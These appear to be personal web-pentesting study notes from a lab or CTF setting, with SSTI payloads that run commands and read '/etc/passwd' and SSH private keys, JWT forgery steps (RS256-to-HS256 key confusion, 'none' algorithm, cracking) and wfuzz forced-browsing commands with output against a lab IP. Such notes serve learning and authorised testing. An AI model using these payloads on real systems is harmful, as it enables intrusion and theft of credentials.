 # part I

### Server Side Template Injection	SSTI

`{{2+2}} `


https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#basic-injection

```
{{ ''.__class__.__mro__[2].__subclasses__()[40]()(<file>).read()}} 

{{config.__class__.__init__.__globals__['os'].popen(<command>).read()}}


{{config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}


{{ ''.__class__.__mro__[2].__subclasses__()[40]('/home/test/.ssh/id_rsa').read() }}
```

tool
https://github.com/epinna/tplmap


### CSRF	Cross Site Request Forgery

user visits a page on a site, that performs an action on a different site

pip3 install xsrfprobe

`xsrfprobe -u <url>/<endpoint>`


### JWT  Json Web Tokens

http://jwt.io

Token breaker in scripts folder 


### using public key


change header to from RS256 to HS256, 

convert public key 
`cat <key> | xxd -p | tr -d "//n"`

openssl sign as valid HS256

```py
echo -n "Key" | openssl dgst -sha256 -mac HMAC -macopt hexkey:<inputFromAbove>
```
decode hex to binary

```py
python -c "exec(\"import base64, binascii\nprint base64.urlsafe_b64encode(bin ascii.a2b_hex('<stdin from above>')).replace('=','')\")"
```

### using header none



https://github.com/lmammino/jwt-cracker

`jwt-cracker <token> [alphabet] [max-length]`


# part II


### IDOR


Insecure Direct Object Reference, is the act of exploiting a misconfiguration in the way user input is handled, to access resources you wouldn't ordinarily be able to access. 


playing with url ,,,

Forced Browsing

dirsearch
dirbuster
dirb
ZAP
Burpsuite 

wfuzz

```
000001659:   404        6 L      57 W       553 Ch      "accountants"  
000001661:   404        6 L      57 W       550 Ch      "accounts"     
000001664:   404        6 L      57 W       552 Ch      "acct_login"   
000001669:   404        6 L      57 W       551 Ch      "acerca-de"    
000001667:   404        6 L      57 W       548 Ch      "acdsee" 
```
We can see that when there isn't a note.txt it returns a 404, with 57 words. Let's hide 57 words by setting --hw to 57.

```
─$ wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt --hw 57 10.10.113.150:81/FUZZ/note.txt
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.113.150:81/FUZZ/note.txt
Total requests: 20469

=====================================================================
ID           Response   Lines    Word       Chars       Payload        
=====================================================================
000013500:   200        1 L      1 W        20 Ch       "password"  

```


### API bypassing

 This is a bit of a unique one, as it can basically be anything. APIs are by definition incredibly versatile, and finding out how to exploit them, will require a lot of research and effort by the hacker. The following situation is only one possible scenario out of a near infinite number.
 
```bash
 ─$ wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt --hw 0 10.10.113.150:82/api.php?FUZZ=flag.txt
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.113.150:82/api.php?FUZZ=flag.txt
Total requests: 20469

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                
=====================================================================

000007534:   200        1 L      1 W        15 Ch       "file"                                                                                                 

Total time: 0
Processed Requests: 9596
Filtered Requests: 9595
Requests/sec.: 0

```












